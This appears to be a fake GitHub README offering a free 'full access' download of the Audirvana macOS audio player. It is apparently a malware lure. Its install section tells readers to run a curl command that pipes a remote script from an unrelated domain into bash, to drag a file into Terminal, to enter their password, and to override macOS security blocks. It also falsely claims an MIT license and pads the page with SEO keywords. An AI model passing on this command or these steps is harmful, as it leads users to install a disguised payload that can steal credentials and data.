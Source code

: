 <p align="center">
  <img src="https://i.ibb.co/PvC1DRpP/1684162812-icon.webp" width="350" alt="Audirvana macOS Banner" />
</p>

<h1 align="center">Audirvana for macOS</h1>

<p align="center">
  🎵 Hi-Res music player for audiophiles. Experience crystal-clear sound with native FLAC, DSD, and bit-perfect playback on your Mac.  
  <br><br>
  ✅ Native Apple Silicon Support  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/248" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20AUDIRVANA%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Audirvana for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/ZpYv7wQn/1616906868-2.jpg" alt="Audirvana UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Audirvana for macOS?

**Audirvana** is a professional-grade audio player for macOS built specifically for high-resolution, bit-perfect music playback. It supports local FLAC, DSD, MQA files, and integrates seamlessly with streaming services like Qobuz and TIDAL.

With native Apple Silicon support and advanced audio routing through Core Audio and SysOptimizer, Audirvana is trusted by audiophiles who demand the highest playback fidelity possible.

---

## ✅ Why Choose Audirvana?

- 🎧 **FLAC, ALAC, WAV, AIFF, DSD, MQA Playback**  
- 📡 **Integration with Qobuz & TIDAL**  
- 🔊 **Bit-Perfect Output with SysOptimizer**  
- 💽 **Plays from Local & Network Drives**  
- 🧠 **Audio Device Configuration Panel**  
- 🍎 **Apple Silicon Native Performance**  
- 🖥️ **Modern UI for macOS Audio Control**  
- 🚫 **No Resampling or System Interference**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/mVj7Kftp/1616906875-1.jpg" alt="Audirvana Playlist Manager Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/4ZstBMhy/1616906887-4.jpg" alt="Audirvana Audio Device Panel" />
</p>

---

## 🚀 Key Features

- Hi-Res audio playback up to DSD512  
- Advanced music library management  
- Streaming and local audio unification  
- Volume bypass & memory playback modes  
- Room correction and upsampling options  
- Interface tailored for album lovers  
- Designed exclusively for macOS  
- Full offline functionality

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Audirvana manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Audio-Hires+DSD+BitPerfect-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Ready-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Audirvana – Audiophile-Grade Sound on macOS

Thanks for using **Audirvana for macOS**.  
Rediscover your music collection in true high fidelity.

---

## 🧭 Usage Context

Audirvana is a local macOS application focused on precision music playback.  
It does not stream via browser, avoids resampling, and works offline after setup.  
Ideal for dedicated Hi-Fi setups, studio work, and private listening environments.

---

## 🔍 Tags

```text
audirvana for mac download, audirvana hi-res music player macos, flac dsd audio player for mac, audiophile music software for mac, audirvana bit perfect playback macbook, audirvana m1 m2 native apple silicon, audirvana with qobuz and tidal support, high fidelity player for mac sonoma, best music player for flac and dsd mac, audirvana offline player no resampling, mac audio control sysoptimizer player, audirvana lossless audio mac download, best hi-res audio app mac 2024, audirvana professional music playback mac, audirvana full version for ventura monterey
